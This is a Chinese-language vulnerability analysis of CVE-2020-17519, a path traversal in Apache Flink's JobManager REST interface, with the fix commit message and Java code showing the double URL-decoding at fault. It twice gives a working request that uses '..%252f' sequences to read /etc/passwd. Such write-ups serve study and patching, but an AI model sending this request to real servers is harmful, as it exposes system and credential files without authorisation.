 Apache Flink 1.11.0中引入的更改（包括1.11.1和1.11.2）允许攻击者通过JobManager进程的REST接口读取JobManager本地文件系统上的任何文件。

**漏洞复现：**

遍历linux系统下/etc/passwd文件
`http://localhost:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd`
 
**漏洞分析：**

通过apache官方邮件找到commit地址

```
[hotfix][runtime] It was possible to traverse the directory of the ho…

…st through /jobmanager/logs/<path-to-file>.

The <path-to-file> had to be modified in a way that '../' referring to the parent folder needed to be replaced by '..%252f'. This enabled traversing the directory structure relative to the ./logs folder, e.g. /jobmanager/logs/..%252f/README.txt would return the content of the README.txt located in the FLINK_HOME folder (assuming Flink's default folder structure).

This is fixed now. The passed path is ignored in the same way as it's already done for the TaskManagerCustomLogHandler.
```

从commit中可以看出该漏洞是通过使用'..%252f'来替换'../'导致可以遍历./log文件夹相关的目录结构
通过文档说明找到对应class的位置

```
try {
	handlerRequest = new HandlerRequest<R, M>(
		request,
		untypedResponseMessageHeaders.getUnresolvedMessageParameters(),
		routedRequest.getRouteResult().pathParams(),
		routedRequest.getRouteResult().queryParams(),
		uploadedFiles.getUploadedFiles());
} catch (HandlerRequestException hre) {
	log.error("Could not create the handler request.", hre);
	throw new RestHandlerException(
		String.format("Bad request, could not parse parameters: %s", hre.getMessage()),
		HttpResponseStatus.BAD_REQUEST,
		hre);
}
```
 
通过发送请求


`http://localhost:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd`

对于CVE-2020-17519来说，整个漏洞的原理比较简单

系统接受request并对handlerRequest对象进行初始化，routedRequest.getRouteResult()将初始化的值存入result，getRouteResult()对request进行第一次解码，最后传递给pathRarams()函数并将第二次解码的结果储存在pathParam变量中

```
routedRequest.getRouteResult().pathParams(),
routedRequest.getRouteResult().queryParams(),
```
```
public RouteResult<T> getRouteResult() {
	return result;
}
```
